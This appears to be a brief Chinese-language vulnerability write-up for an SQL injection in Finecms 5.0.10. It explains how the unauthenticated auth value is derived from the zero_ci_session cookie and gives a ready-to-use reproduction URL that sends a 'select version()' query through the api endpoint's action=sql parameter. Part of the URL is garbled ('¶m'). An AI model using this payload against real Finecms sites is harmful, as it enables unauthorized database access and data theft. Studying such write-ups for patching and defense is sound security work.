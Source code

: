 Finecms 5.0.10 sql注入漏洞
==========================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?c=api&m=目标站点的值¶m=action=sql%20sql=%27select%20version();%27

![](resource/Finecms5.0.10sql注入漏洞/media/rId24.png)
